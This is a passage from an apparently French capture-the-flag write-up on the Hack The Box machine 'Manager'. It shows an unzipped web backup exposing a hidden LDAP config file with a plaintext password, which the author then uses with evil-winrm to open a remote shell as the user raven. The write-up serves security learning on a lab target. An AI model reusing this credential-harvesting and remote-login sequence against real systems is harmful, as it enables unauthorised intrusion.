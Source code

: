 ```shell
  inflating: web_backup/images/offer-img.jpg  
  inflating: web_backup/images/prev.png  
 extracting: web_backup/images/prev-white.png  
 extracting: web_backup/images/quote.png  
 extracting: web_backup/images/s-1.png  
 extracting: web_backup/images/s-2.png  
 extracting: web_backup/images/s-3.png  
 extracting: web_backup/images/s-4.png  
 extracting: web_backup/images/search-icon.png  
  inflating: web_backup/index.html   
  inflating: web_backup/js/bootstrap.js  
  inflating: web_backup/js/jquery-3.4.1.min.js  
  inflating: web_backup/service.html  
```

En le dezippant, comme vous voyez je trouve un fichier xml `.old-conf.xml` qui est cachee. Voici son contenue

```xml
─# cat web_backup/.old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

Un utilisateur `raven` et son mot de passe `R4v3nBe5tD3veloP3r!123`, Oui c'est ce que je trouve. Comme le `winrm` est ouvert alors je vais acceder au bureau de cet utilisateur la grace au protocol `winrm`.

```sh
└─# evil-winrm -i $ip -u raven -p 'R4v3nBe5tD3veloP3r!123'   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> whoami
manager\raven
*Evil-WinRM* PS C:\Users\Raven\desktop> dir


    Directory: C:\Users\Raven\desktop

```